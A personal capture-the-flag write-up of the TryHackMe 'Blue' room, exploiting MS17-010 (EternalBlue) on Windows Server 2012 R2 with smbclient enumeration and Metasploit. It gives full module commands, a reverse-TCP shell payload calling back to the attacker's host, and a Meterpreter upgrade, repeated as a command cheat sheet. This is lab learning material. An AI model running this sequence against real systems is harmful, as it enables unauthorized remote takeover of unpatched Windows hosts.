

# Blue — Debrief

## Objective

What was the goal of the room?

## Initial Recon

My eyes first went to the services where SMB was running on port 445 and HTTP was running on port 5985.


* Target: `10.129.136.252`
* Open ports:

  * `135` running `msrpc`
  * `139` running `netbios-ssn`
  * `445` running `microsoft-ds` — our target, who's gonna WannaCry 😜
  * `3389` running `ms-wbt-server`
  * `5985` running HTTP — a viable target
* Services:

  * Microsoft Windows RPC
  * Windows Server 2012 R2 Datacenter
  * Microsoft HTTPAPI httpd version 2.0
* Technologies:

  * SMB running on port 445 is a high-value target; it's mainly used as a file and resource sharing service.
  * HTTP was possibly a web server, but nothing too interesting.
* Interesting endpoints/files:

  * None discovered from the initial HTTP enumeration.

## Attack Path

### 1. Enumeration

> **🕸️ I tried that service on port 5985:** My first instinct was to check out whatever was running on that HTTP server. I hoped to find any interesting endpoints or hidden directories. My hopes were quickly crushed when it returned a 404 Not Found. I didn't even have time to pull out my gobuster gun 😈

> **🔍 Next was SMB running on 445:** Like every veteran in the field of computers, there are some exploits in the history of history that are just too cruel to forget. The target exposed SMB running on port 445, so I tried to probe for answers that would lead to its eventual downfall.

First, I communicated with the SMB service using `smbclient` on Linux:

```bash
smbclient -L //<BLUE_IP>/ -N
```

The `-L` is `smbclient`'s way of saying, "Hey, I want a list of all shares on the following target." While the `-N` attempts to do that without prompting for a password.

### 2. Discovery

* First off, HTTP was a bust (obviously).

* The SMB client on our target allowed for unauthenticated access to the share, but that was it — no strings (permissions) attached.


* As a good boy, mama always told me "Knowledge is power," so I knew that this SMB had more than meets the eye. I did a quick Google search using the server information for the service on port 445 obtained from the Nmap scan earlier: `"Windows Server 2012 R2 Datacenter 9600"`.

### 3. Exploitation

What did I do with that discovery?

* From my Google search just before, I could see many search results pointing to (you guessed it) **MS17-010**, aka EternalBlue, aka WannaCry. So I went back to my terminal and used my trusty SearchSploit to search for MS17-010:



Surprisingly, there was no result for WannaCry 🤪. So I had two options:

**Option A:** Mirror one of these exploits from Exploit-DB:

```bash
searchsploit -m /path/to/exploit
```

**Option B:** Fire up the Metasploit console:

```bash
msfconsole
```

* If you're extremely strong-willed and good at your coding, Option A works just fine. But as for me and my household, Option B it is.


We'll be making use of module with ID `0` with:

```text
use 0
```

### 4. Foothold

How did I get initial access?

The exploit itself was the point where things got interesting.

Metasploit reported that the exploit had completed, but the expected session was not created. I checked the configuration and experimented with the local host (`LHOST`) value, including the TryHackMe VPN interface and my AWS interface.

The important distinction I learned here was:

> **An exploit reporting that it completed does not necessarily mean that a usable session was successfully established.**

So although the vulnerability and attack path were identified correctly, the Metasploit session became the blocker rather than the vulnerability itself.

* I set everything up after the `use 0` command in Metasploit, and you could see my prompt change to deadly red, ready to devour my target whole.

* Important parameters that ought to be set are:

```text
set RHOSTS 10.130.146.20
```

> Change this to your target IP.

```text
set LHOST 192.168.128.168
```

> Change this to your `tun0` IP.

```text
set payload windows/x64/shell/reverse_tcp
```

```text
check
```

> You should look out for **"The target is vulnerable."**

```text
run
```

> `exploit` can also be used.

* Give it a few seconds and we should have a shell.

### 5. Privilege Escalation

There wasn't a separate privilege-escalation stage in my attack path.

The significance of MS17-010 is that successful exploitation can provide extremely high privileges on the vulnerable Windows system. In other words, the important security impact was already contained in the initial exploitation step rather than requiring me to first obtain a low-privileged account and then escalate.

Upon getting a shell, it was a regular `cmd` shell. For a THM room where we're basically looking for flags, that's alright: **"Get in → Find flags → Get out."** But we might as well have wanted some more control over this box.

My favorite definition of hacking: **"Hacking is the act of making a system do what it was never initially built for."**

In reference to life hacks where ordinary objects defy the regular system of life and lift certain burdens, when we hack boxes, we don't usually settle for the same boring type of control regular users have. We want what is called a **Meterpreter** shell.

The module is:

```text
post/multi/manage/shell_to_meterpreter
```

### 6. Shell to Meterpreter

The idea here was to take the existing command shell and upgrade it to a Meterpreter session.

First, I backgrounded the current session:

```text
background
```

Then I used the shell-to-Meterpreter post-exploitation module:

```text
use post/multi/manage/shell_to_meterpreter
```

I selected the session I wanted to upgrade:

```text
set SESSION 1
```

Then I ran the module:

```text
run
```

## Key Findings

| Finding                                                     | Evidence                                   | Impact                                                                                                  |
| ----------------------------------------------------------- | ------------------------------------------ | ------------------------------------------------------------------------------------------------------- |
| SMB was exposed on port 445                                 | Nmap scan                                  | Provided an attack surface for SMB-based attacks                                                        |
| Target was running Windows Server 2012 R2                   | Nmap service/version information           | Helped identify relevant vulnerabilities                                                                |
| Target appeared vulnerable to MS17-010                      | Vulnerability research + exploit selection | Provided a potential path to remote code execution                                                      |
| Metasploit reported exploitation but no session was created | Metasploit output                          | Demonstrated that successful exploit execution and successful session establishment are separate things |

## Commands Worth Remembering

**Enumerate SMB shares without supplying a password:**

```bash
smbclient -L //<BLUE_IP>/ -N
```

**Search Exploit-DB for MS17-010 exploits:**

```bash
searchsploit ms17-010
```

**Launch Metasploit:**

```bash
msfconsole
```

**Search for modules inside Metasploit:**

```text
search ms17-010
```

**Select the required EternalBlue exploit module:**

```text
use exploit/windows/smb/ms17_010_eternalblue
```

**View the module's configuration options:**

```text
show options
```

**Set the target:**

```text
set RHOSTS <TARGET_IP>
```

**Set the local host:**

```text
set LHOST <TUN0_IP>
```

**Set the reverse shell payload:**

```text
set payload windows/x64/shell/reverse_tcp
```

**Check whether the target is vulnerable:**

```text
check
```

**Execute the configured exploit:**

```text
run
```

**Background the current session:**

```text
background
```

**Use the shell-to-Meterpreter post-exploitation module:**

```text
use post/multi/manage/shell_to_meterpreter
```

**Select the session to upgrade:**

```text
set SESSION 1
```

**Run the module:**

```text
run
```

## What I Took Away

The biggest lesson from this room wasn't just that **EternalBlue** exists. It was the process:

> **Recon → Identify the attack surface → Enumerate → Research the target → Form a vulnerability hypothesis → Find an exploit → Configure it → Test it → Verify whether access was really obtained → Stabilize**

The part I need to remember most is the last one. Running an exploit is not the same as proving it succeeded.

And honestly, this room was fun. I wasn't trying to write a 40-page pentest report for a TryHackMe machine. I wanted to understand what I was doing, be able to explain it, and have something in the Iron Vault that I could come back to later.

That is what this debrief is for.
